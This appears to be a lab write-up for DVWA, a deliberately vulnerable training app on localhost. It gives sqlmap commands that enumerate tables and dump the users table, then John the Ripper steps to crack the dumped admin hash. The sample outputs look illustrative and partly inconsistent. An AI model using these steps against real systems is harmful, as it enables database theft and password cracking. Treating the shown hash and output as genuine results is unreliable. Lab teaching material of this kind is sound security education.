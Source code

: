 ### Get Tables: Use the following command to retrieve tables from the dvwa database:

```bash
python sqlmap/sqlmap.py -u "http://localhost/vulnerabilities/sqli/?id=1&Submit=Submit#" -D dvwa --tables
```
Get Users Information: To get user information, you can specify the users table:

```bash
python sqlmap/sqlmap.py -u "http://localhost/vulnerabilities/sqli/?id=1&Submit=Submit#" -D dvwa -T users --dump
```
Expected Output: You should see the tables listed along with user information, such as usernames and hashed passwords.

```diff
+----+----------+----------------------------------+
| id | username | password                         |
+----+----------+----------------------------------+
| 1  | admin    | $P$B4yTzp2e6u7p5SBe2VhxF8Z3gL6.Tg2 |
+----+----------+----------------------------------+
```

## Question 3: Make use of John the Ripper to disclose the password of all database users from the above exploit

## Answer 3:

Install John the Ripper (if you don't have it):

```bash
sudo apt-get install john
```
Prepare the Hashes:

Save the password hashes to a text file (e.g., hashes.txt):
```shell
$P$B4yTzp2e6u7p5SBe2VhxF8Z3gL6.Tg2
```
Run John the Ripper:

```bash
john --format=phpass hashes.txt
```
Expected Output: John the Ripper will attempt to crack the password hash and display the plaintext password once found:

```makefile
admin:password
```


